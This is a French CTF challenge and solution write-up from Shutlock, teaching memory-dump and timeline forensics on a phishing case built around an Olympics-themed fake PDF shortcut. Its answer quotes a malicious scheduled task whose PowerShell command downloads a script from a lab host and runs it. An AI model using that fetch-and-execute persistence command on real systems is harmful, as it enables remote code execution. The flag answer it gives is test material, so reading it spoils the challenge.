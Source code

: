 ## Description

### Enquête sur le phishing des JO : Retracer l'attaque Partie 1
Mike O'Soft a été averti d'une campagne de phishing par le groupe THE HAMOR. Une des personnes ayant reçu le mail de phishing en question, s'est faite avoir. 

Vous avez pour mission de réaliser l'enquête. Heureusement pour vous, les équipes du ministère ont réalisé un dump mémoire sur la machine. Dans la suite de votre enquête, un dump réseau vous sera confié. 

Sauriez-vous retracer ce qu'il s'est passé sur ce poste ? 

Pour résoudre ce challenge, vous devez répondre aux questions suivantes : 

1 - Quel est le nom du raccourci malveillant ?

2 - Quel est le nom de la scheduled task créée ?

3 - Quel script est lancé par cette scheduled task ?

#### Format du flag

**SHLK{'nom-fichier'-'scheduled task-'script'}**

#### Exemple

1 - File : ctf\shutlock.test

2 - scheduled task : ScheduleTaskName

3 - script : ThisIsTheScript.sh

**SHLK{shutlock.test-ScheduleTaskName-ThisIsTheScript.sh}**


#### SHA256

dump.raw : 757D150394158D68F33D25A46EF45D6874FE046A40DA7E97C3C0D33DF21EB7E1

dump.zip : 3C6DA179B87FA2DC0ACB988466428679FD6AF0905F004A56E8A968A83009E16D

## Objectif de la création de ce challenge

Ce challenge a été créé pour la première édition du CTF Shutlock.

Il a été réalisé afin de permettre une introduction à l'analyse de timeline et de dump mémoire.

## Solve

### TL;DR

- Analyse du système de fichiers pour trouver le script malveillant
- Analyse des tasks créées

### Informations trouvées grâce à l'énoncé

- Mail de phishing

Fichiers donnés : 

- `dump.raw` : dump mémoire de l'ordinateur infecté (Windows 10)
- `ordi.png` : screenshot de l'ordinateur infecté

### Informations trouvées grâce à ordi.png

Information sur les processus en cours et malveillants 
- Notepad : instructions.txt
- Edge : Tirage_au_sort_pour_gagner_des_places_aux_Jeux_Olympiques_de_Paris_2024.pdf

Permets d'avoir une idée de l'heure à laquelle l'attaque a eu lieu.

### Etude

- Utilisation de l'outil [MemProcFS](https://github.com/ufrisk/MemProcFS)

```bash
MemProcFS.exe -forensic 1 -device dump.raw
```

- **Quel est le nom du fichier malveillant ?**

L'accès initial étant un mail de phishing, on regarde son système de fichiers pour voir s'il n'a pas téléchargé le fichier malveillant.

Visible dans `M:\forensic\ntfs\1\Users\clara\Downloads\`
On remarque qu'il a téléchargé *Tirage_au_sort_pour_gagner_des_places_aux_Jeux_Olympiques_de_Paris_2024.zip*.

Ce zip extrait le fichier `Tirage_au_sort_pour_gagner_des_places_aux_Jeux_Olympiques_de_Paris_2024.pdf` ayant pour type `raccourci`.

Première partie du flag : `Tirage_au_sort_pour_gagner_des_places_aux_Jeux_Olympiques_de_Paris_2024.pdf.lnk`

- **Quel est le nom de la scheduled task créée ?**

On utilise le fichier visible dans `M:\forensic\csv\tasks.csv`. On va analyser dans timeline explorer (fichier .tle_sess)

On voit la première task `IGotYourFileInfo` ayant pour ligne de commande `Invoke-WebRequest` et pour paramètre `-Uri http://172.21.195.17:5000/Holmes/GetFileInfo.ps1 -OutFile GetFilesInfo.ps1 ; Start-Process -FilePath GetFilesInfo.ps1`

On vérifie dans `M:\forensic\csv\timeline_tasks.csv` que la task a été créée.

Deuxième partie du flag : `IGotYourFileInfo`

- **Quel script est lancé par cette scheduled task ?**

````powershell
IGotYourFileInfo - [Invoke-WebRequest :: -Uri http://172.21.195.17:5000/Holmes/GetFileInfo.ps1 -OutFile GetFilesInfo.ps1 ; Start-Process -FilePath GetFilesInfo.ps1] (Author)
````

Le script lancé est le paramètre de *-OutFile*

Troisième partie du flag : GetFilesInfo.ps1